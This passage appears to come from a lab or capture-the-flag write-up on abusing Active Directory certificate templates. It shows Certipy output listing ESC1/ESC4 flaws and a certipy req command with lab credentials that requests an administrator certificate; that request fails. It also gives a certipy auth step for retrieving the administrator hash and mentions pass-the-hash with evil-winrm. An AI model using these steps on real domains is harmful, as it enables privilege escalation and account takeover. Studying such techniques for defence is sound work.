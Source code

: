 ```json
      Object Control Permissions
        Owner                           : NARA-SECURITY.COM\Administrator
        Full Control Principals         : NARA-SECURITY.COM\Enrollment
        Write Owner Principals          : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
        Write Dacl Principals           : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
        Write Property Principals       : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
    [!] Vulnerabilities
      ESC1                              : 'NARA-SECURITY.COM\\Domain Users' and 'NARA-SECURITY.COM\\Enrollment' can enroll, enrollee supplies subject and template allows client authentication
      ESC4                              : 'NARA-SECURITY.COM\\Enrollment' has dangerous permissions

```

- However trying to request a certificate file `.pfx` i keep getting this error, although the goal is to keep trying till it works, but after numerous attempt this didn't work for me. I mean i just made this blog so you can understand how this works.

```bash
❯ certipy req -username JODIE.SUMMERS -password hHO_S9gff7ehXw -target nara-security.com -ca NARA-CA -template NaraUser -upn administrator@nara-security.com -dc-ip 192.168.220.30 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'nara-security.com' at '192.168.220.30'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:192.168.220.30[\pipe\cert]
[+] Connected to endpoint: ncacn_np:192.168.220.30[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x80092013 - CRYPT_E_REVOCATION_OFFLINE - The revocation function was unable to check revocation because the revocation server was offline.
[*] Request ID is 25
Would you like to save the private key? (y/N) 
[-] Failed to request certificate
```

- If you want you can check this video of a friend exploiting the certificate template on a live stream by [Ye Zeiya Shein](https://www.youtube.com/watch?v=sQgsRfmMus8)

```bash
certipy auth -pfx administrator.pfx -domain nara-security.com -username administrator -dc-ip 192.168.220.30

# Gives administrator hash
```

- You can then pass-the-hash using the `evil-winrm` utility in kali as the user administrator
